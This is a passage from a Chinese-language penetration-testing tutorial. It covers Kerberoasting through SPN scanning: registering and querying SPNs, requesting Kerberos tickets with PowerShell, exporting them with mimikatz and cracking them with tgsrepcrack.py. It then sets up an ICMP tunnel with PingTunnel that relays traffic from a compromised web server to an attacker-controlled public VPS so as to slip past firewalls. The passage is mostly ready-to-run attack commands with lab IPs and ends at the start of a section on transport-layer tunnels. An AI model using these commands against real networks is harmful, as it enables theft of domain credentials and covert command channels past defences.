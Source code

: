 # 五、利用SPN服务进行横向移动

在域环境中，SPN扫描是查找相关服务较好的方法，可以从相关服务着手，如MSSQL、WSMAN、Exchange、TERMSERV、Hyper-V。其扫描是通过请求特定SPN类型的服务主题名称进行的。与普通网络端口相比，SPN扫描不需要连接IP来检测服务端口，所以能规避一些IPS的规则，且进行扫描只需普通域用户权限。  
注册SPN  
Setspn -A c3/test MSSQL  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-2e3521d54e01333fa3805137e1ede74c.png)  
查看注册的SPN  
Setspn -q _/_  
Setspn -q _/_ | findstr “MYSQL”  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-be83786f7f03393406a6ba4f4b305238.png)  
请求服务票据  
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MySQL/win7.xie.com:3306/MySQL"  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-a635a5201a58ab8bd2e32ee56c9a53bc.png)  
列出服务票据  
Klist  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-4ae70cc4f9d6117f95eeac76364bca71.png)  
并用mimikatz将票据导出  
Kerberos::list /export  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-97bba960794e45235ff08cdc549f6c73.png)  
最后使用tgsrepcrack.py爆破得到相应密码。

# 六、隧道通信

## 6.1 网络层隧道

```python
ICMP隧道是网络层常用的隧道之一。在ICMP协议中，设备间的通信是不需要开放相应的端口。当攻击者使用各类上层隧道进行通信均失败时，则可通过ping命令访问目标计算机，并尝试建立ICMP隧道，将TCP/UDP等相应需要传输的数据封装到ping数据包中，从而穿过防火墙实现通讯。
其中PingTunnel是ICMP隧道的常用工具，可跨平台使用。下面使用该工具进行相应的操作：
```

先在受控端（web服务器）运行PingTunnel工具，执行开启隧道命令  
sudo ./pingtunnel -type server  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-1548941d6af5a47aae1ce396a1cdeda2.png)  
在控制端（公网vps）执行下面命令，打开需要监听的本地端口，会把指定的服务器相应端口的数据封装在ICMP隧道中，以受控端（web服务器）为IMCP隧道跳板进行传输。  
pingtunnel -type client -l :本地所监听的端口 -s 受控端IP -t 指定要转发的目标IP:指定要转发的目标端口 -tcp 1  
pingtunnel -type client -l :33444 -s 192.168.74.132 -t 192.168.96.145:80 -tcp 1  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-84a6b7f9fec8893a0b0e0c90df42aea6.png)  
访问本地监听端口：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-de145a51cadba1bbce0ccb6f4b95bfee.png)

## 6.2 传输层隧道
